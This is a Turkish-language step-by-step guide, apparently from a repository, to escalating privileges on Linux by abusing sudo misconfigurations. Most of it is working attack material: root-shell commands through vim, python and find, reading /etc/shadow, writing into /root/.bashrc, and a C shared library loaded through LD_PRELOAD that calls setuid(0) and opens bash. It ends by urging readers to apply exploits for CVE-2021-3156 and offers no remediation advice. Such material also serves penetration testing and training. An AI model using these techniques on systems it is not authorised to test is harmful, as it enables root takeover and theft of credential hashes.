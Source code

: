 ### Sudo Haklarını Kötüye Kullanarak Privilege Escalation (Yetki Yükseltme) Rehberi

Sudo, Linux sistemlerinde kullanıcıların belirli komutları root yetkisiyle çalıştırmasına izin veren bir araçtır. Ancak, yanlış yapılandırılmış sudo ayarları, yetki yükseltme saldırıları için fırsatlar sunabilir. Bu rehberde, sudo haklarını kötüye kullanarak nasıl yetki yükseltme yapılacağını adım adım açıklayacağız.

---

#### 1. **Sudo Hakkı Kontrolü**
Sistem üzerinde sudo hakkı olan kullanıcıların hangi komutları çalıştırabildiğini öğrenmek için şu komut kullanılır:
```bash
sudo -l
```
Bu komut, mevcut kullanıcı için sudo ile çalıştırılabilecek komutları ve bu komutların sınırlamalarını listeler. Örnek çıktı:
```
User ahmet may run the following commands on host:
    (ALL) NOPASSWD: /bin/cat
    (root) NOPASSWD: /usr/bin/vim
```

**Analiz Edilecekler:**
- Hangi kullanıcı ya da grup için izin verilmiş?
- Komutların tam yolu doğru mu?
- `NOPASSWD` kullanılmış mı?

---

#### 2. **Potansiyel İstismar Alanları**

##### a) **Komut Çalıştırma Yetkisi**
Sudo ile çalıştırılabilecek bir komutun shell komutlarını icra edebilecek şekilde yapılandırıldığını fark ederseniz, root yetkisi kazanabilirsiniz. Örneğin:
```bash
sudo vim -c ':!/bin/bash'
```
Bu komut, root yetkisiyle bir bash shell açar.

##### b) **Dosya Okuma/Yazma Yetkisi**
Sudo ile root yetkisiyle dosya okuma izni varsa hassas dosyalara erişilebilir:
```bash
sudo cat /etc/shadow
```
Eğer dosya yazma yetkisi varsa, kötü amaçlı kod eklenebilir:
```bash
echo 'malicious_code' | sudo tee /root/.bashrc
```

##### c) **Script ve Program Çalıştırma Yetkisi**
Eğer bir script ya da program root yetkisiyle çalıştırılıyorsa, bu dosya düzenlenerek kötü niyetli komutlar eklenebilir. Örneğin:
```bash
sudo /usr/bin/python3
```
Bu, bir Python shell’i açar:
```python
import os
os.system("/bin/bash")
```

---

#### 3. **Yetki Yükseltme Teknikleri**

##### a) **Sudo’ya Tanımlı İkili Dosyaların İstismarı**
Birçok Linux dağıtımında kurulu olan ikili dosyalar, sudo ile root olarak çalıştırılabilir. GTFOBins (https://gtfobins.github.io) bu tür dosyaların bir listesini sağlar.

**Örnek:**
```bash
sudo find . -exec /bin/sh \; -quit
```
Bu, root yetkisiyle bir shell açar.

##### b) **Çevre Değişkenlerinin İstismarı**
Bazı durumlarda, sudo komutları çevre değişkenlerini miras alır. `LD_PRELOAD` gibi değişkenler kullanılarak root yetkisi elde edilebilir.

**Adımlar:**
1. Kötü amaçlı bir .so dosyası oluşturun:
    ```c
    #include <stdio.h>
    #include <stdlib.h>

    void _init() {
        setgid(0);
        setuid(0);
        system("/bin/bash");
    }
    ```
    Bu dosyayı `gcc -shared -o exploit.so -fPIC exploit.c` ile derleyin.

2. `LD_PRELOAD` değişkenini kullanarak shell açın:
    ```bash
    sudo LD_PRELOAD=./exploit.so some_command
    ```

##### c) **Sudo Hatası Kullanımı**
Bazı sudo sürümleri, belirli zafiyetlere sahiptir. Sürümünüzü kontrol edin:
```bash
sudo --version
```
Örnek bir zafiyet: CVE-2021-3156 (Heap Overflow). Bu tür zafiyetler için güvenlik açıklarını arayın ve exploit’leri uygulayın.

---
